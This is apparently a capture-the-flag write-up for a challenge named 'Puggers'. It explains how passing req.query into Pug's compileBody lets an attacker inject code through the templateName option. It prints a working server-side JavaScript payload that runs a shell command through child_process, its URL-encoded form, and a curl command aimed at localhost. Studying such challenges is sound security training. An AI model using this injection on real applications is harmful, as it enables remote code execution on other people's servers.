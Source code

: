 # Puggers

Author: samuzora

> It's so poggers when I copy Pug source code so that I don't have to handle new updates

Difficulty: Hard

## Solution

The app uses compileBody straightaway which bypasses some checks that were done earlier. The code was copied over because compileBody isn't exposed in the regular Pug module.

The app passes the entire `req.query` into `compileBody`, which allows the attacker to specify some options.

In [the source code](https://github.com/pugjs/pug/blob/4767cafea0af3d3f935553df0f9a8a6e76d470c2/packages/pug-code-gen/index.js#L173C20-L173C20), the templateName is passed in without any further checks. Thus we can use this to get command injection and hence RCE.

```js
template() { var x = global.process.mainModule.require; return x("child_process").execSync('cat flag.txt'); }; function asdf
```

Encoded is `template%28%29%20%7B%20var%20x%20%3D%20global%2Eprocess%2EmainModule%2Erequire%3B%20return%20x%28%22child%5Fprocess%22%29%2EexecSync%28%27cat%20flag%2Etxt%27%29%3B%20%7D%3B%20function%20asdf%0A`

Pass into `templateName`

```bash
curl http://localhost:7006/?templateName=...
```
